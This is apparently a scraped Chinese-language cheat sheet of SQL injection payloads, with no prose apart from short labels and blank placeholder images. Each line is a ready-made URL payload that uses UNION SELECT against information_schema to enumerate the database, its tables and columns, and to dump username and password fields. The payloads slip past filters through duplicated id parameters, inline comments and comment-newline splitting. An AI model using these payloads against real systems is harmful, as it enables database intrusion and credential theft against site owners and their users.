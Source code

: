   

```
`#数据库名``?id=1/**&id=-1%20union%20select%201,database(),3%23*/`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=1/**&id=-1%20union%20select%201,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479%23*/`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=1/**&id=-1%20union%20select%201,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273%23*/`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=1/**&id=-1%20union%20select%201,group_concat(0x7e,username,password),3 from users%23*/`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

  

```
`#字段数``?id=1%20order%20%23%0a%20by%203%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#数据库``?id=-1%20union%20all%23%0a%20select%201,database%23%0a(),3%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  